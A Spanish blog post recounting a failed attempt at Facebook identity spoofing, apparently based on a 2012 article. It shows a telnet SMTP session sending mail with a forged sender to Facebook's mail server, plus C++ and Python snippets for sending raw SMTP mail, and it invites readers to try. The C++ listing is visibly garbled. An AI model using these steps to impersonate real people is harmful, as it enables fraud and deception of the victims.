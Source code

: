 ```yaml
---
author: alex
categories:
- seguridad
color: '#F57C00'
format: aside
if_slider_image:
- null
- null
layout: post.amp
mainclass: articulos
permalink: /suplantacion-de-identidad-en-facebook/
tags:
- email spoofing
- seguridad
- smtp
- spoofing facebook
title: "Suplantaci\xF3n de identidad en Facebook"
---
```


Leyendo el blog de <a href="http://www.elladodelmal.com/" target="_blank">Chema Alonso</a> me he encontrado con una entrada interesante que, aunque no he logrado realizarla al 100% quiero compartirla con vosotros para que lo intente quien quiera.

El método consiste en conseguir 3 cosas:

*La dirección de correo de la persona a suplantar.*
*Dirección de correo de facebook de la persona a quién se va a engañar.*
*Un sistema para enviar correos SMTP*

Los pasos a seguir podéis leerlos en la entrada de <a href="http://www.elladodelmal.com/2012/05/suplantacion-de-identidad-en-facebook.html" target="_blank">Chema: Suplantación de identidad en Facebook</a>

Voy a explicar lo que yo he hecho:

Al principio al establecer comunicación mediante telnet por el puerto 25 (el de SMTP) y escribrir los comandos siempre recibía el siguiente error:

```bash
<strong>550 5.6.0 Invalid header found (see RFC2822 section 3.6)</strong>
```

Tras buscar un poco el motivo descubrí que se debía a que me estaba saltando algunas cabeceras del protocolo, concretamente *From, To * y *Date.*

En resumen, todo el proceso queda como sigue:

<!--more--><!--ad-->

```bash
telnet smtpin.mx.facebook.com smtp
Trying 69.171.244.11...
Connected to smtpin.mx.facebook.com.
Escape character is '^]'.
220 smtpin.mx.facebook.com ESMTP
HELO client.facebook.com
250 smtpin.mx.facebook.com says HELO to xx.xxx.xxx.xx:xxxxx
MAIL from:
250 MAIL FROM accepted
RCPT to:
250 RCPT TO accepted
DATA
354 continue.  finished with "rn.rn"
From: xxxxx@xxxxx.xxx
To: xxxxxx@facebook.com
Subject: Test
Date: xxx, xx xxx xxxx xx:xx:xx -xxxx

This is an example
.
450 4.3.2 INT-T14 http://postmaster.facebook.com/response_codes?ip=xx.xxx.xx.x#int Server busy, try again later
Connection closed by foreign host.
```

Pero sigo recibiendo un error (*450 4.3.2 INT-T14 http://postmaster.facebook.com/response_codes?ip=xx.xxx.xx.x#int Server busy, try again later
Connection closed by foreign host*)

También probé con dos programas (sin éxito), uno en[ C++][1] y otro en [python][2] que encontré en stackoverflow:

```cpp
#include <iostream>
     #include <sys>
     #include </sys><sys>
     #include <netinet>
     #include <netdb>
     #include <stdio>
     #include <string>
     using namespace std;
     #define HELO "HELO xxxxxx@xxxx.xxxxrn"
     #define DATA "DATArn"
     #define QUIT "QUITrn"

    //#define h_addr h_addr_list[0]
    //FILE *fin;
    int sock;
    struct sockaddr_in server;
    struct hostent *hp, *gethostbyname();
    char buf[BUFSIZ+1];
    int len;
    char *host_id="69.171.244.12";
    char *from_id="********";
    char *to_id="*******";
    char *sub="testmailrn";
    char wkstr[100]="hello how r urn";

    /*=====Send a string to the socket=====*/

    void send_socket(char *s)
    {
        write(sock,s,strlen(s));
        write(1,s,strlen(s));
        //printf("Client:%sn",s);
    }

    //=====Read a string from the socket=====*/

    void read_socket()
    {
        len = read(sock,buf,BUFSIZ);
        write(1,buf,len);
      //printf("Server:%sn",buf);
    }

    /*=====MAIN=====*/
    int main(int argc, char* argv[])
    {

    /*=====Create Socket=====*/
    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock==-1)
    {
     perror("opening stream socket");
     return 1;
    }
    else
      cout < < "socket createdn";
    /*=====Verify host=====*/
    server.sin_family = AF_INET;
    hp = gethostbyname(host_id);
    if (hp==(struct hostent *) 0)
    {
     fprintf(stderr, "%s: unknown hostn", host_id);
     return 2;
    }

    /*=====Connect to port 25 on remote host=====*/
    memcpy((char *) &server.sin;_addr, (char *) hp->h_addr, hp->h_length);
    server.sin_port=htons(25); /* SMTP PORT */
    if (connect(sock, (struct sockaddr *) &server;, sizeof server)==-1)
    {
     perror("connecting stream socket");
     return 1;
    }
    else
      cout < < "Connectedn";
    /*=====Write some data then read some =====*/
    read_socket(); /* SMTP Server logon string */
    send_socket(HELO); /* introduce ourselves */
    read_socket(); /*Read reply */
    send_socket("MAIL FROM: ");
    send_socket(from_id);
    send_socket("rn");
    read_socket(); /* Sender OK */
    send_socket("VRFY ");
    send_socket(from_id);
    send_socket("rn");
    read_socket(); // Sender OK */
    send_socket("RCPT TO: "); /*Mail to*/
    send_socket(to_id);
    send_socket("rn");
    read_socket(); // Recipient OK*/
    send_socket(DATA);// body to follow*/
    send_socket("Subject: ");
    send_socket(sub);
    read_socket(); // Recipient OK*/
    send_socket(wkstr);
    send_socket(".rn");
    read_socket();
    send_socket(QUIT); /* quit */
    read_socket(); // log off */

    //=====Close socket and finish=====*/
    close(sock);
    return 0;
  }

```

La versión en python:

```python
#!/usr/bin/python

import smtplib
import sys
import os

sender = 'xxxxx@xxxxx.com'
receivers = ['xxxxx@facebook.com']

message = """From: From Person
To: To Person
Subject: SMTP e-mail test
This is a test e-mail message.
"""

try:
   smtpObj = smtplib.SMTP('69.171.244.12')
   smtpObj.sendmail(sender, receivers, message)
   print "Successfully sent email"
except Exception, exc:
   sys.exit( "mail failed; %s" % str(exc) ) # give a error message
```

Esto es todo, por más que lo he intentado no lo he logrado, si os animáis a probarlo y lo conseguís, agradecería que lo comentárais.

##### Fuente: <a href="http://www.elladodelmal.com/2012/05/suplantacion-de-identidad-en-facebook.html" target="_blank">Elladodelmal</a>
</string></stdio></netdb></netinet></sys></iostream>



 [1]: https://elbauldelprogramador.com/c/
 [2]: https://elbauldelprogramador.com/python
